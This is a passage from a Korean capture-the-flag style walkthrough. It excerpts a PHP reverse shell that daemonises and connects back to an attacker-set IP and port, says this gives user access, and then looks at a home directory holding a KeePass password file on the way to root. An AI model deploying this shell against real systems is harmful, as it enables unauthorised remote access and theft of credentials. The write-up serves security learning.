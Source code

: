 ```php
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

.. 생략

```

![image](https://user-images.githubusercontent.com/33647663/218146216-dde3d8ea-4706-466d-b873-123bbf94fb0a.png)

이렇게 하여 일반사용자 권한 획득이 가능합니다.

![image](https://user-images.githubusercontent.com/33647663/218146507-004287c1-20c6-42c4-938f-e723be818e79.png)


그 다음으로 root 권한을 위한 권한 상승이 필요합니다.

아까 mount 하고 살펴보지 않았던 /home/ross 파일을 살펴봅니다.

```bash
$ cd ross
$ tree
.
├── Desktop
├── Documents
│   └── Passwords.kdbx
├── Downloads
├── Music
├── Pictures
├── Public
├── Templates
└── Videos

```